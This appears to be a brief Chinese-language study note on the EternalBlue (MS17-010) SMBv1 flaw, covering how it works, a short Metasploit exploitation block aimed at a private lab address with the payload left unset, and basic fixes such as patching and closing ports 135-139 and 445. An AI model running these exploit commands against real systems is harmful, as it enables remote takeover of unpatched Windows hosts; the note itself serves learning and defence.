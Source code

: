 ### 一 漏洞描述
永恒之蓝漏洞通过 TCP 的445和139端口，来利用 SMBv1 和 NBT 中的远程代码执行漏洞，通过恶意代码扫描并攻击开放445文件共享端口的 Windows 主机。只要用户主机开机联网，即可通过该漏洞控制用户的主机。不法分子就能在其电脑或服务器中植入勒索病毒、窃取用户隐私、远程控制木马等恶意程序。

### 二 漏洞利用(待定)
```
msf:
use exploit/windows/smb/ms17_010_eternalblue
set payload
set rhosts 192.168.50.132
exploit
```

### 三 漏洞修复
1 升级  
2 限制135-139 445端口
3 安装安全软件
